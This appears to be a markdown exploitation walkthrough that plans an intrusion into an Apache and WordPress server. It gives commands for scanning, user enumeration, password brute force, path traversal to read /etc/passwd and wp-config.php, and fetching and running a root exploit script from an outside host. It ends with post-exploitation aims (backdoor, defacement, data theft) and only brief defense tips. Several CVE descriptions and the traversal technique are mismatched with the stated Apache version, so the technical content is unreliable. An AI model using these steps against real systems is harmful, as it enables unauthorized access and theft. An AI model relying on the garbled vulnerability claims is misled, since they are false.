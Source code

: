### **🔥 Exploitation Scenario: Apache & WordPress Vulnerability on example.com**

---

## **🛠 Target Details (Based on Nmap Scan)**

- **Target:** `example.com (192.168.1.10)`
    
- **Running Services:**
    
    - **SSH (22/tcp):** OpenSSH 8.2p1 (Ubuntu)
    - **HTTP (80/tcp):** Apache 2.4.41 (Ubuntu)
    - **HTTPS (443/tcp):** Apache 2.4.41 (Ubuntu) with SSL
    - **MySQL (3306/tcp):** Closed
- **Web Application:** Possible **WordPress** (detected from `http-title: Example Website`)
    

---

## **📌 Exploitation Plan: Targeting Apache & WordPress**

💡 **Goal:** Gain access to the web server by exploiting **Apache misconfigurations** and **WordPress vulnerabilities**.

### **1️⃣ Step 1: Check for Apache Vulnerabilities**

📌 **Apache 2.4.41 is outdated**—this version has known vulnerabilities:

- **CVE-2019-0211**: Privilege escalation vulnerability
- **CVE-2018-1312**: Open redirect exploit
- **CVE-2017-15715**: Path traversal

🔍 **Scan for vulnerabilities using Nikto**:

```bash
nikto -h http://example.com
```

📌 **Expected Findings:**

- If directory listing is enabled, sensitive files like **.htpasswd** or **wp-config.php** might be exposed.
- Outdated **Apache modules** could be running.
- **Security headers might be missing**, making the server vulnerable to attacks.

---

### **2️⃣ Step 2: Enumerate WordPress for Weaknesses**

📌 **If WordPress is running, we can exploit outdated plugins, themes, or weak passwords.**

🔍 **Step 2.1: Enumerate WordPress users**

```bash
wpscan --url http://example.com --enumerate u
```

📌 **Expected Findings:**

- If `admin` or other usernames are found, we can **brute-force the login**.

🔍 **Step 2.2: Check for vulnerable WordPress plugins**

```bash
wpscan --url http://example.com --enumerate vp
```

📌 **Expected Findings:**

- Outdated plugins could be **exploited for remote code execution**.

🔍 **Step 2.3: Attempt brute-force attack if weak credentials are found**

```bash
wpscan --url http://example.com --passwords rockyou.txt --usernames admin
```

📌 **Expected Findings:**

- If a weak password exists, we gain access to the **WordPress admin panel**.

---

### **3️⃣ Step 3: Exploiting Apache Path Traversal (CVE-2017-15715)**

📌 **If Apache allows directory traversal**, we can try accessing restricted files.

🔍 **Step 3.1: Check if traversal is possible**

```bash
curl http://example.com/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

📌 **Expected Findings:**

- If successful, it will reveal the **/etc/passwd** file, exposing system users.

🔍 **Step 3.2: Attempt to access the WordPress configuration file**

```bash
curl http://example.com/%2e%2e/%2e%2e/%2e%2e/var/www/html/wp-config.php
```

📌 **Expected Findings:**

- If successful, we retrieve **database credentials** from `wp-config.php`.

---

### **4️⃣ Step 4: Escalate Privileges with CVE-2019-0211**

📌 **CVE-2019-0211** affects Apache versions before 2.4.42, allowing **privilege escalation**.

🔍 **Step 4.1: If we have limited shell access, check Apache version**

```bash
apache2 -v
```

📌 **Expected Findings:**

- If Apache 2.4.41 is confirmed, we can **run a local exploit**.

🔍 **Step 4.2: Run the privilege escalation exploit**

```bash
wget http://exploit-db.com/path/to/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

📌 **Expected Findings:**

- If successful, we gain **root privileges on the web server**.

---

### **💀 Post-Exploitation & Defense Recommendations**

**If we compromise the server, we can:**

- Extract **sensitive data** (database credentials, user info).
- Create a **backdoor** for persistent access.
- Modify website content or **deface the homepage**.

**How to Prevent These Attacks?** ✅ **Update Apache & WordPress regularly.**  
✅ **Restrict access to sensitive files.**  
✅ **Disable directory listing in Apache.**  
✅ **Enforce strong passwords.**

---

### **🎯 Summary**

|**Step**|**Attack Method**|**Expected Outcome**|
|---|---|---|
|**1️⃣ Apache Enumeration**|Nikto scan|Finds outdated modules, missing security headers|
|**2️⃣ WordPress Enumeration**|Wpscan|Finds users, weak passwords, vulnerable plugins|
|**3️⃣ Path Traversal**|`%2e%2e/` exploit|Access restricted files like `wp-config.php`|
|**4️⃣ Privilege Escalation**|CVE-2019-0211 exploit|Gain root access to the server|


